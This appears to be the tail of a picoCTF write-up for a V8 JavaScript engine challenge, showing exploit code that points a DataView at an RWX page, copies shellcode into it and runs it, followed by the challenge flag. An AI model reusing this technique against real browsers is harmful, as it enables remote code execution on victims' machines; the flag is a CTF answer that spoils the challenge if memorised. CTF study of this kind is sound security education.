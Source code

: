 ```javascript

dataview = new DataView(evil_buf)
heap_write(addrof(evil_buf) + 0x14n, rwx_page)

for(i = 0; i < shellcode.length; ++i){
    dataview.setBigUint64(i*4, BigInt(shellcode[i]), true)
}

pwn()
```

Flag: `picoCTF{Good_job!_Now_go_find_a_real_v8_cve!_4f2661eab1a80e33}`
